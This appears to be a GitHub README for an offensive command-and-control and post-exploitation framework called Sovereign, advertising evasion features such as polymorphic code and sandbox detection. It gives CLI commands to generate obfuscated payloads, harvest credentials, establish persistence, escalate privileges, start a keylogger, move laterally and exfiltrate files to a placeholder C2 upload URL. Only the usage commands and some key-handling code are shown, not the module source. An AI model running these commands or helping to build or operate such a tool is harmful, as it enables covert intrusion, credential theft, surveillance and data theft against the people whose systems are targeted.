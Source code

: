 # Sovereign Post-Exploitation Framework

This framework provides advanced post-exploitation capabilities with a focus on evasion and automation.

## Features

- **Enhanced Evasion Techniques**: Polymorphic code, sandbox detection, time-based evasion.
- **Advanced Post-Exploitation Modules**: Credential harvesting, persistence, 
-   privilege escalation, reconnaissance, data exfiltration, keylogging, lateral movement.
- **Secure Communication**: Encrypted communication between agent and C2 server.
- **Modular Design**: Easily add new modules and functionalities.
- **Logging and Reporting**: Detailed logging and report generation.

## Usage

### Setting Up the C2 Server

1. **Create a Python virtual environment and activate it**:
    python -m venv venv
    source venv/bin/activate  # On Windows: venv\Scripts\activate

2. **Install the required dependencies**:
    pip install -r c2_server/requirements.txt

3. **Run the C2 server**:
    python c2_server/c2_server.py

### Using the CLI

The CLI provides various commands to interact with the framework.

#### List all registered agents:
    python cli/cli.py list_agents

#### Send a command to a specific agent:
    python cli/cli.py send_command --agent_id AGENT_ID --command "Your command here"

#### Generate an obfuscated payload for a specific platform:
    python cli/cli.py generate_payload --platform PLATFORM

#### Harvest credentials:
    python cli/cli.py harvest_credentials

#### Establish persistence:
    python cli/cli.py establish_persistence

#### Escalate privileges:
    python cli/cli.py escalate_privileges

#### Gather system information:
    python cli/cli.py gather_system_info

#### Exfiltrate data:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

#### Start keylogger:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

#### Move laterally:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

### Example Commands

1. **Listing all registered agents**:
    python cli/cli.py list_agents

2. **Sending a command to a specific agent**:
    python cli/cli.py send_command --agent_id 1234-5678-9101-1121 --command "whoami"

3. **Generating a payload for Windows**:
    python cli/cli.py generate_payload --platform windows

4. **Harvesting credentials**:
    python cli/cli.py harvest_credentials

5. **Establishing persistence**:
    python cli/cli.py establish_persistence

6. **Escalating privileges**:
    python cli/cli.py escalate_privileges

7. **Gathering system information**:
    python cli/cli.py gather_system_info

8. **Exfiltrating data**:
    python cli/cli.py exfiltrate_data --file_path /path/to/file --c2_url https://your-c2-server.com/upload

9. **Starting a keylogger**:
    python cli/cli.py start_keylogger --log_file_path /path/to/log_file

10. **Moving laterally**:
    python cli/cli.py move_laterally --target_ip TARGET_IP --username USERNAME --password PASSWORD

### Logging and Reporting

Logs are stored in the c2_server.log file located in the c2_server directory. This file contains detailed information about agent activities and commands executed.

To generate a report from the logged data, run the following command:
    python c2_server/c2_server.py generate_report
This will create a report.txt file containing the logs. The report provides a comprehensive view of all interactions and events logged by the C2 server.

### Adding New Modules

To add new post-exploitation modules, create a new Python file in the c2_server/modules directory and implement the desired functionality. Update the CLI script to include commands for the new module.

### Key Generation and Conversion

#### RSA Key Generation
To generate a pair of RSA keys, you can use the OpenSSL toolkit. Run the following commands to generate a private key and a public key:

1. **Generate a private key:**
   openssl genpkey -algorithm RSA -out private_key.pem -pkeyopt rsa_keygen_bits:2048

2. **Extract the public key from the private key:**
   openssl rsa -pubout -in private_key.pem -out public_key.pem

#### AES Key Generation
To generate an AES key, you can use OpenSSL as well:

1. **Generate a 256-bit AES key:**
   openssl rand -base64 32 > aes_key.txt

#### Conversion to XML
For certain applications, you may need to convert these keys into XML format. Below are examples of how you might format the keys in XML.

### Secure Management of Keys
Ensure that keys are not stored in the repository. Instead, load them from secure storage at runtime. Below is an example of how you can load keys in a Python script:

import os
from cryptography.hazmat.primitives import serialization
from cryptography.hazmat.primitives.asymmetric import rsa

def load_private_key(path):
    with open(path, 'rb') as key_file:
        private_key = serialization.load_pem_private_key(
            key_file.read(),
            password=None,
        )
    return private_key

def load_public_key(path):
    with open(path, 'rb') as key_file:
        public_key = serialization.load_pem_public_key(key_file.read())
    return public_key

def load_aes_key(path):
    import xml.etree.ElementTree as ET
    tree = ET.parse(path)
    root = tree.getroot()
    aes_key = root.find('value').text
    return aes_key

private_key_path = os.getenv('PRIVATE_KEY_PATH')
public_key_path = os.getenv('PUBLIC_KEY_PATH')
aes_key_path = os.getenv('AES_KEY_PATH')

private_key = load_private_key(private_key_path)
public_key = load_public_key(public_key_path)
aes_key = load_aes_key(aes_key_path)

print("Keys loaded successfully.")

### Setting Up Environment Variables
You can set up environment variables to point to the key file paths:

#### Example .env File
PRIVATE_KEY_PATH=/path/to/private_key.pem
PUBLIC_KEY_PATH=/path/to/public_key.pem
AES_KEY_PATH=/path/to/aes_key.xml

### Running the Project
To run the project, follow the instructions below:

1. **Clone the repository:**
   git clone https://github.com/your-repo/Sovereign-C2.git
   cd Sovereign-C2

2. **Install dependencies:**
   pip install -r requirements.txt

3. **Run the CLI:**
   python cli/cli.py

4. **Set up the environment variables:**
   export $(cat .env | xargs)

### Contribution

Contributions to the Sovereign framework are welcome. Please submit a pull request with a detailed description of your changes.
